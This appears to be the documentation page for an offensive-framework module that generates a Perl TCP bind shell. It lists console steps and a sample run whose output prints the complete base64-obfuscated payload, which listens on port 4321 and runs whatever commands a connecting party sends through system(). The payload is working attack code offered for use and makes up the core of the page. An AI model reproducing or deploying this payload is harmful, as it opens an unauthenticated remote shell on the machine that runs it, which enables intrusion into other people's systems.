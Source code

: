 ## Description

Module generates payload that creates interactive tcp bind shell by using perl. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/perl/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates perl tcp bind shell payload

## Scenarios

```
rsf > use payloads/perl/bind_tcp
rsf (Perl Bind TCP) > set rport 4321
[+] rport => 4321
rsf (Perl Bind TCP) > run
[*] Running module...
[*] Generating payload
use MIME::Base64;eval(decode_base64('dXNlIElPO2ZvcmVhY2ggbXkgJGtleShrZXlzICVFTlYpe2lmKCRFTlZ7JGtleX09fi8oLiopLyl7JEVOVnska2V5fT0kMTt9fSRjPW5ldyBJTzo6U29ja2V0OjpJTkVUKExvY2FsUG9ydCw0MzIxLFJldXNlLDEsTGlzdGVuKS0+YWNjZXB0OyR+LT5mZG9wZW4oJGMsdyk7U1RESU4tPmZkb3BlbigkYyxyKTt3aGlsZSg8Pil7aWYoJF89fiAvKC4qKS8pe3N5c3RlbSAkMTt9fTs='));
```
